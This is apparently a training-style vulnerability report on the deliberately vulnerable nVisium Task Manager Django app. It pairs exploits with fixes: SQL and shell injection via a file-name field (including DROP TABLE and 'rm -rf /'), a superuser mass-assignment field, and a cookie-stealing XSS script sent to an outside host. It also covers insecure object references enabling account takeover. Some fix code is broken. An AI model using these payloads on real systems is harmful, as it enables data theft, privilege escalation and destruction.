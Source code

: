 # Vulnerability Report on nVisium Task Manager

### Injection

#### Exposure

Looked for vulnerabilities in any form view and found that the project file upload form directly includes form
input in SQL statements. The form exists at this url:

.../taskManager/project_id/upload/

and has a 'File Name' field where you can insert both SQL and shell commands.

##### Injecting SQL

```<filename>',(select <whatever you want> from <some table> where <some condition>),<your project id>);--```

With this line, you can inject SQL queries directly into the database and gain access to a variety
of information. For example, you get a user's email or (hashed) password, you can get usernames, you can get
information on projects and tasks. Tables I accessed:

* auth_user
* taskManager_project
* taskManager_task
* taskManager_userprofile
* taskManager_file

All of the information shows up in the file's path.

I tried:

```droptable',(select title from taskManager_project where id=10),10); Drop table taskManager_project;--```

to try and drop a table, but an exception was raised saying I could only execute one statement at a time.

##### Injecting shell commands

```; ls /```

Upload a file with this as the file name and you are shown all root directories and files.
You could potentially inject "; rm -rf /" which would delete everything on the system.

#### Repair

In the 'upload' view in taskManager/views.py:

To inhibit SQL injection, use Django's built in validation tools. Replace
```
curs = connection.cursor()
            curs.execute(
                "insert into taskManager_file ('name','path','project_id') values ('%s','%s',%s)" %
                (name, upload_path, project_id))
```
with
```
file = File(
    name=name,
    path=upload_path,
    project=proj
)

file.save()
```

To inhibit shell injection, don't name files based directly on user input. Replace
```
name = request.POST.get('name', False)
```
with
```
name = ''.join(random.choice(string.lowercase) for i in range(length))
```

### Broken Auth and Session Management

#### Exposure

The UserForm built on the Django user class doesn't exclude the 'is_superuser' field.
In the browser, I added another input field to the registration form
```
<input name='is_superuser' type='checkbox' checked>
```
which made my new user a superuser. I can create new projects (I previously could but now I get
a button), I can manage permissions, etc.

#### Repair

You could add 'is_superuser' to the 'excludes' blacklist, or you could explicitly state
which fields should be allowed. To do the latter, in UserForm within taskManager/forms.py, replace
```
exclude = ['groups', 'user_permissions', 'last_login', 'date_joined', 'is_active']
```
with
```
fields = ('username', 'first_name', 'last_name', 'email', 'password')
```

### Cross-site Scripting

#### Exposure

In 'base_backend.html', the user's username is inserted into the html document with the 'safe' filter.
So any code in the username will be executed. I inserted:
```
myname</span><script>document.location= 'http://www.google.com?foo='+document.cookie</script>
```
as my username, but my browser console raised an error saying the XSS Auditor refused to execute the script
since it's source code was found in the request. But if I then just go somewhere else, say the homepage,
the page renders my username and in doing so runs the script redirecting me to google with the cookie attached.
A very similar script can be inserted into the create/edit task form with the same results.

A similar vulnerability exists in the search page where you can insert code into the href of the refresh button,
but I couldn't get around the XSS Auditor in this case.

#### Repair

Really just get rid of the 'safe' filter.
In 'search.html', 'task_details.html', and 'base_backend.html', replace
```
{<some data> | safe}
```
with
```
{<some data>}
```

### Insecure Direct Object References

#### Exposure

Other than a couple of protected pages, I can access any page I want and I can edit anything I want.
For example, I can access the admin's profile, change their email to mine, say I forgot my password, then change
their password and take over the account.

#### Repair

There are quite a lot of view functions lacking user authentication. For each of these, the appropriate
check is required to ensure that the user has permission to view or do what they are trying to.

For example, in the project file 'upload' view, replace
```
if request.method == 'POST':

    proj = Project.objects.get(pk=project_id)
    form = ProjectFileForm(request.POST, request.FILES)

    ...

    return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

else:
    form = ProjectFileForm()
return render_to_response(
    'taskManager/upload.html', {'form': form}, RequestContext(request))
```
with
```
if request.user.has_perm('project_edit'):
    if request.method == 'POST':

        proj = Project.objects.get(pk=project_id)
        form = ProjectFileForm(request.POST, request.FILES)

        ...

        return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

    else:
        form = ProjectFileForm()
    return render_to_response(
        'taskManager/upload.html
else:
    return redirect('/taskManager/', {'permission': False})
```

Other permissions include:
* 'task_delete'
* 'task_edit'
* 'task_add'
* 'project_delete'
* 'project_edit'
* 'project_add'
* 'user_edit'

